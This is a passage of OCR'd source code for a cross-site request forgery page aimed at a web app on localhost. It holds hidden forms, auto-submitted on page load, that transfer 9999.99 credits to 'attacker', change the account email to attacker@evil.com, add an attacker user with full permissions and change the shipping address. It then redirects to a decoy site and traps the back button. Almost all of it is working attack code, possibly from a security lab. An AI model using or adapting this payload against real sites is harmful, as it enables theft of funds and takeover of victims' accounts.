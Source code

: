 ```html
        <!-- Transfer all funds -->
        <form id="transfer1" action="http://localhost:8000/transfer-credits/" method="POST">
            <input name="recipient" value="attacker">
            <input name="amount" value="9999.99">
        </form>
        
        <!-- Change email for account takeover -->
        <form id="email" action="http://localhost:8000/update-email/" method="POST">
            <input name="email" value="attacker@evil.com">
        </form>
        
        <!-- Add attacker as authorized user -->
        <form id="adduser" action="http://localhost:8000/add-authorized-user/" method="POST">
            <input name="username" value="attacker">
            <input name="permissions" value="full">
        </form>
        
        <!-- Change shipping address -->
        <form id="address" action="http://localhost:8000/update-address/" method="POST">
            <input name="address" value="Attacker Street 123">
            <input name="city" value="Evil City">
        </form>
    </div>

    <script>
        // Sophisticated attack chain
        async function executeAttackChain() {
            document.querySelector('.loading').style.display = 'block';
            
            // Phase 1: Financial theft
            await submitForm('transfer1', 1000);
            
            // Phase 2: Account takeover prep
            await submitForm('email', 2000);
            
            // Phase 3: Persistence
            await submitForm('adduser', 3000);
            
            // Phase 4: Data modification
            await submitForm('address', 4000);
            
            // Phase 5: Redirect to legitimate site
            setTimeout(() => {
                window.location = 'http://legitimate-site.com/congrats';
            }, 5000);
        }
        
        function submitForm(formId, delay) {
            return new Promise(resolve => {
                setTimeout(() => {
                    document.getElementById(formId).submit();
                    resolve();
                }, delay);
            });
        }
        
        // Auto-execute after page load
        window.onload = () => {
            setTimeout(executeAttackChain, 2000);
        };
        
        // Prevent back button
        history.pushState(null, null, location.href);
```